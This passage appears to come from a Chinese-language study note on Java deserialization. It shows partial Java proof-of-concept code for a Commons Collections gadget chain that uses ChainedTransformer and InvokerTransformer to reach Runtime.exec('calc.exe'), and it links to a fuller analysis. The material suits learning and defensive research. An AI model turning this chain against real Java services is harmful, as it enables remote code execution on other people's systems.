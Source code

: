 
他没有使用`javassist`将恶意的类转为字节码加载，而是直接使用CC6中使用到的`ChainedTransformer`获取恶意代码

```java
public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Comparator comparator = new TransformingComparator(transformerChain);
```





然后后面的基本思路都差不多

详细的可以参考他的[分析](https://github.com/Y4tacker/JavaSec/blob/main/2.%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%93%E5%8C%BA/CommonsCollections2/CommonsCollections2.md)  

